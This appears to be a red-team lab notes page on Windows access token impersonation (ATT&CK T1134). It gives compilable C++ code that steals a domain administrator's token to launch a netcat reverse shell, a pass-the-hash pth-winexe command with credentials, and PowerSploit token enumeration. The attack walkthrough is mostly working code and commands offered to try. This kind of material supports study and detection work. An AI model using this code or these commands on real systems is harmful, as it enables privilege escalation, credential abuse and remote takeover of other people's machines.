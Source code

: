 ```yaml
---
description: 'Defense Evasion, Privilege Escalation'
---
```


# T1134: Access Token Manipulation

## Execution

One of the techniques of token manipulations is token impersonation. This is when a token of an already existing access token present in one of the running processes on the local host, is retrieved and duplicated and then used for creating a new process.

The high level process is as follows:

| Step | Win32 API |
| :--- | :--- |
| Open a process which has the access token you want to steal. | `OpenProcess` |
| Get a handle to the access token of that process | `OpenProcesToken` |
| Make a duplicate of the access token present in that process | `DuplicateTokenEx` |
| Create a new process with the newly aquired access token | `CreateProcessWithTokenW` |

Below is the C++ code implementing the above process. Note the variable `PID_TO_IMPERSONATE` that has a value of `3060` This is a process ID that we want to impersonate/steal its token from, since it is running as a domain admin and makes for a good target:

![A victim cmd.exe process that is running under the context of DC admin offense\administrator](../.gitbook/assets/tokens-victim-3060.png)

Note te line 16 which specifies the executable that should be launched with an impersonted token, which in our case is a simple netcat reverse shell:

![](../.gitbook/assets/tokens-shell-c++.png)

And this is the code if you want to compile and try it yourself:

{% code-tabs %}
{% code-tabs-item title="tokens.cpp" %}
```cpp
#include "stdafx.h"
#include <windows.h>
#include <iostream>

int main(int argc, char * argv[]) {
	char a;
	HANDLE processHandle;
	HANDLE tokenHandle = NULL;
	HANDLE duplicateTokenHandle = NULL;
	STARTUPINFO startupInfo;
	PROCESS_INFORMATION processInformation;
	DWORD PID_TO_IMPERSONATE = 3060;
	wchar_t cmdline[] = L"C:\\shell.cmd";
	ZeroMemory(&startupInfo, sizeof(STARTUPINFO));
	ZeroMemory(&processInformation, sizeof(PROCESS_INFORMATION));
	startupInfo.cb = sizeof(STARTUPINFO);	

	processHandle = OpenProcess(PROCESS_ALL_ACCESS, true, PID_TO_IMPERSONATE);
	OpenProcessToken(processHandle, TOKEN_ALL_ACCESS, &tokenHandle);
	DuplicateTokenEx(tokenHandle, TOKEN_ALL_ACCESS, NULL, SecurityImpersonation, TokenPrimary, &duplicateTokenHandle);			
	CreateProcessWithTokenW(duplicateTokenHandle, LOGON_WITH_PROFILE, NULL, cmdline, 0, NULL, NULL, &startupInfo, &processInformation);
	
	std::cin >> a;
    return 0;
}
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Launching the tokens.exe from the powershell console spawns a reverse shell that the we catch on the attacking system. Note how the `powershell.exe` - the parent process of `Tokens.exe` and `Tokens.exe` itself are running under `PC-Mantvydas\mantvydas`, but the newly spawned shell is running under `OFFENSE\Administrator` - this is because of the successful token impersonation:

![](../.gitbook/assets/token-shell-impersonated.png)

Other quick test - I spawned a cmd shell remotely from the attacking machine to the same victim machine via:

{% code-tabs %}
{% code-tabs-item title="attacker@local" %}
```text
pth-winexe //10.0.0.2 -U offense/administrator%pass cmd
```
{% endcode-tabs-item %}
{% endcode-tabs %}

which spawned a new process on the victim system with a PID of 4780:

![](../.gitbook/assets/tokens-winexe.png)

Enumerating all the access tokens with `Invoke-TokenManipulation -ShowAll | ft -Wrap -Property domain,username,tokentype,logontype,processid` from PowerSploit gives the below, note the available token highlighted - it is the cmd.exe from above screenshot:

![](../.gitbook/assets/tokens-all.png)

This token again can be stolen the same way, just by changing the PID to impersonate in our code:

![](../.gitbook/assets/tokens-new-pid.png)

and observing a new process being spawned witht the new token - note the cmd.exe has a PID 5188:

![](../.gitbook/assets/tokens-new-shell.png)

If we rerun the Invoke-TokenManipulation, we can see the new process is using the access token with logon type 3:

![](../.gitbook/assets/token-new-logon-3%20%281%29.png)

## Observations

{% embed data="{\"url\":\"https://attack.mitre.org/wiki/Technique/T1134\",\"type\":\"link\",\"title\":\"Access Token Manipulation - ATT&CK for Enterprise\",\"icon\":{\"type\":\"icon\",\"url\":\"https://attack.mitre.org/favicon.ico\",\"aspectRatio\":0}}" %}

{% embed data="{\"url\":\"https://digital-forensics.sans.org/blog/2012/03/21/protecting-privileged-domain-accounts-access-tokens\",\"type\":\"link\",\"title\":\"SANS Digital Forensics and Incident Response Blog \| Protecting Privileged Domain Accounts:  Safeguarding Access Tokens \| SANS Institute\",\"description\":\"SANS Digital Forensics and Incident Response Blog blog pertaining to Protecting Privileged Domain Accounts:  Safeguarding Access Tokens\",\"icon\":{\"type\":\"icon\",\"url\":\"https://digital-forensics.sans.org/favicon.ico\",\"aspectRatio\":0}}" %}

{% embed data="{\"url\":\"https://clymb3r.wordpress.com/2013/11/03/powershell-and-token-impersonation/\",\"type\":\"link\",\"title\":\"PowerShell and Token Impersonation\",\"description\":\"This post will discuss bringing incognito-like functionality to PowerShell in the form of a new PowerShell script \(Invoke-TokenManipulation\), with some important differences. I’ll split this post u…\",\"icon\":{\"type\":\"icon\",\"url\":\"https://s1.wp.com/i/favicon.ico\",\"aspectRatio\":0},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://clymb3r.files.wordpress.com/2013/11/screen-shot-2013-11-03-at-10-07-42-pm.png?w=300\",\"width\":300,\"height\":187,\"aspectRatio\":0.6233333333333333}}" %}

{% embed data="{\"url\":\"https://msdn.microsoft.com/en-us/library/windows/desktop/aa446671\(v=vs.85\).aspx\",\"type\":\"link\",\"title\":\"GetTokenInformation function \(Windows\)\",\"icon\":{\"type\":\"icon\",\"url\":\"https://msdn.microsoft.com/Areas/Epx/Themes/Windows/Content/Winlogo\_favicon.ico\",\"aspectRatio\":0}}" %}

{% embed data="{\"url\":\"https://docs.microsoft.com/en-us/windows/desktop/api/winbase/nf-winbase-createprocesswithtokenw\",\"type\":\"link\",\"title\":\"CreateProcessWithTokenW function\",\"description\":\"Creates a new process and its primary thread. The new process runs in the security context of the specified token. It can optionally load the user profile for the specified user.\",\"icon\":{\"type\":\"icon\",\"url\":\"https://docs.microsoft.com/favicon.ico\",\"aspectRatio\":0},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://docs.microsoft.com/\_themes/docs.theme/master/en-us/\_themes/images/microsoft-header.png\",\"width\":128,\"height\":128,\"aspectRatio\":1}}" %}

{% embed data="{\"url\":\"https://msdn.microsoft.com/en-us/library/windows/desktop/aa446617\(v=vs.85\).aspx\",\"type\":\"link\",\"title\":\"DuplicateTokenEx function \(Windows\)\",\"icon\":{\"type\":\"icon\",\"url\":\"https://msdn.microsoft.com/Areas/Epx/Themes/Windows/Content/Winlogo\_favicon.ico\",\"aspectRatio\":0}}" %}

[https://www.blackhat.com/docs/eu-17/materials/eu-17-Atkinson-A-Process-Is-No-One-Hunting-For-Token-Manipulation.pdf](https://www.blackhat.com/docs/eu-17/materials/eu-17-Atkinson-A-Process-Is-No-One-Hunting-For-Token-Manipulation.pdf)



